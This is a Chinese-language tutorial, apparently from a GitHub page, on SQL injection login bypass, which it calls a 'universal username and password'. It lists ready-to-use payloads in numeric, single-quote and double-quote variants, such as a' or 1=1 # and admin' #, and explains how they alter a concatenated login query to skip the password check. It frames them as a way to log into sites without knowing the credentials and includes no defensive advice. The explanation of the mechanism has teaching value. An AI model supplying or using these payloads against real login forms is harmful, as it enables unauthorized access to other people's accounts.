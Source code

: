 # 万能账号密码

## 简介

我们平时登录账号时，如果是第一次登录，系统会提示我们注册账号，并将我们注册的账号和密码保存到数据库中。当我们再次登录时，系统会将我们输入的账号和密码和数据库中的数据进行匹配，匹配成功能登录。这就意味着我们需要知道一个已经注册过并且正确的账号和密码才能进行登录，那如果我不小心忘记了我的账号或者密码，或者我压根就不知道账号和密码，还有没有办法登录呢？答案是肯定的，那就是 【万能账号密码】

万能账号密码是指 【万能账号】和 【万能密码】，顾名思义，就是可以 【登录任意网站】的账号和密码

万能账号并不是一个真正意义上的账号，它是一种【拥有不同变体的格式】

## 万能账号

【数值型万能账号】

a or true #

a or 1 #

a or 1=1 #

a or true -- a

a or 1 -- a

a or 1=1 -- a

【单引号字符型万能密码】

a' or true #

a' or 1 #

a' or 1=1 #

a' or true --a

a' or 1 -- a

a' or 1=1 -- a

【双引号字符型万能密码】

a" or true #

a" or 1 #

a" or 1=1 #

a" or true -- a

a" or 1 -- a

a" or 1=1 -- a

密码随便输入，比如 123456

## 万能密码

需要注意的是：万能密码中的 admin，必须是真实的用户名

【数值型万能密码】

admin #

admin -- a

【单引号字符串型万能密码】

admin' #

admin' -- a

【双引号字符串型万能密码】

admin” #

admin" -- a

【数值型万能密码】

admin #

admin -- a

用户名输入 【万能密码】，比如 admin’ #

密码随便输入，比如 123456

## 原理剖析

一个网络安全意识淡薄的网站，其登录功能的SQL语句大概是下面这个样子

select * from user where username='user' and password='pass'

1、万能账号原理

当我们在登录界面输入 【万能账号】比如 a’ or true # 以后，后端会将我们输入的参数拼接到SQL中，然后去数据库中查询账号和密码，SQL语句大概是下面这样

select * from user where username='a' or true #' and password='pass'

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL语句大概是下面这样

select * from user where username='a' or true

or true 会使SQL语句恒成立，从而查询出数据库中的所有账号和密码，从而使我们成功登录

1.1 注释符

除了 # 以外， -- 也是SQL中的注释符，但SQL的语法格式规定--和后面的注释内容必须间隔一个空格，所以这需要使用 a' or 1 -- a 而不是 a' or 1 -- 其原理和 a’ or 1 # 大同小异，拼接到SQL中大概是下面这样

select * from user where username='a' or true -- a' and password='pass'

注释后面的内容不生效，真正执行的SQL大概是下面这样

select * from user where username='a' or true

SQL语句恒成立，从而登录成功

换句话来说，a' or true -- a经过SQL的转化后，结果等价于 a’ or true #

1.2 比较运算符

SQL中规定，非布尔类型的数据参与比较运算时，会转化为布尔类型再参与运算。比如 or 1 或者 or 1=1 ，会转化为布尔类型的 true 再参与 or 的比较运算，也就是变成 or true ，同样能使条件恒成立，从而登录成功

简单来讲就是：a' or 1 # 或者 a' or 1=1 # 等价于 a' or true #

2、万能密码原理

当我们在登录界面输入 【万能密码】 比如 admin’ # 以后，后端会将我们输入的参数拼接到SQL中，大概是下面这样

select * from user where username='admin' #' and password='pass'

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL大概是下面这样

select * from user where username='admin'

SQL只会在数据库中查询用户名，而不是同时查询用户名和密码，这就意味着，只要用户名正确，就可以登录成功

2.1 注释符

除了 # ，-- 在SQL中也是注释符，SQL的语法格式规定 --后面必须使用空格来间隔后面的注释内容，所以需要将 --写作 -- a,后面的 a 可以是任意数字或者字母

简单来件就是 admin’ – a 等价于 admin‘ #
